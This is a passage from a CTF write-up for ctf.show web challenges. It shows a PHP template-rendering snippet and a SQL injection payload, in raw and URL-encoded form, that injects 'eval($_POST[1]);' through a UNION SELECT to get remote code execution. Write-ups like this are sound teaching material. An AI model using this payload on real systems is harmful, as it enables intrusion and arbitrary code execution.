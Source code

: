 ```php
}

if($action=='login'){
	templateUtil::render($action);
}else{
	templateUtil::render($action);
}
```

```
?action=check&username=' union select 'eval($_POST[1]);' as username;%23&password=1
```

```http
http://b141a6c9-a617-470b-9830-4d4adbda1e9d.challenge.ctf.show/index.php?action=check&username=%27%20union%20select%20%27eval($_POST[1]);%27%20as%20username;%23&password=1
```

<img src=".\图片\Snipaste_2023-08-12_12-32-51.png" alt="Snipaste_2023-08-12_12-32-51" style="zoom:67%;" />

## web491

`../index.php` 源码：
